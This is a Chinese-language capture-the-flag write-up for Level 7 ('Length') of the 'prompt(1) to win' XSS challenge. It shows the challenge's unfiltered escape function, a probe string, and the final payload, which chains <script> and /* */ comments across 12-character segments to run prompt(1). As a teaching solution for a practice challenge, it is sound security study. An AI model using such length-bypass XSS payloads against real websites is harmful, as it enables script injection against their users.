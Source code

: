 ## [[prompt(1) to win](http://prompt.ml)] [[Level 7 - Length](http://prompt.ml/7)] [[解题报告](http://exp-blog.com/2019/03/23/pid-3672/)]

------

## 题目

```javascript
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

## 解题报告

题目代码很好理解：

- 使用 `#` 切割 input 的字符串，切割后的子串会被顺次放到若干个 `<p>` 标签的 `title` 属性中
- 子串长度若超过 12 则会被截断
- input 内容没有做任何过滤

可以使用这个探针看到前面的分析效果：

`11#2222#333333#44444444#5555555555#6666666666666666666666666#"><img src=0`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/01.png)


------------

需知道 javascript 代码有个特点：

- 在 HTML 语境中，`<script>` 和 `</script>` 标签之间的内容默认视为 js 代码
- js 代码换行后依然会自动拼接并生效（但是函数名/变量名要完整，不能破开到两行）
- js 代码内容之间的注释会被自动忽略

因此对于这种限制长度的注入点，可以搭配 `<script>` 和多行注释 `/* */` 进行绕过。

结合 `title` 属性值长度为 12 的限制进行考虑，可以尝试在本地构造这样的 HTML 代码，成功触发 prompt 事件：

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/  prompt/*"></p>
<p class="comment" title="*/(1)     /*"></p>
<p class="comment" title="*/</script> "></p>
```

> 注意： `<script>` 和 `</script>` 标签用于声明 js 代码的范围，这两个标签不能从中间任何位置破开到两行，否则多行注释 `/* */` 就不会起作用了。另外我在测试 payload 的时候，也尝试过 `<!-- -->` HTML 注释，但是尖括号会造成标签错位导致注入失败，有兴趣的同学可以研究下。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/02.png)

从前面构造的 HTML 代码中提取每一行的 `title` 属性值，使用 `#` 拼接，就得到最终 payload 如下（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*），完成挑战：

`"><script>/*#*/prompt/*#*/(1)/*#*/</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/03.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
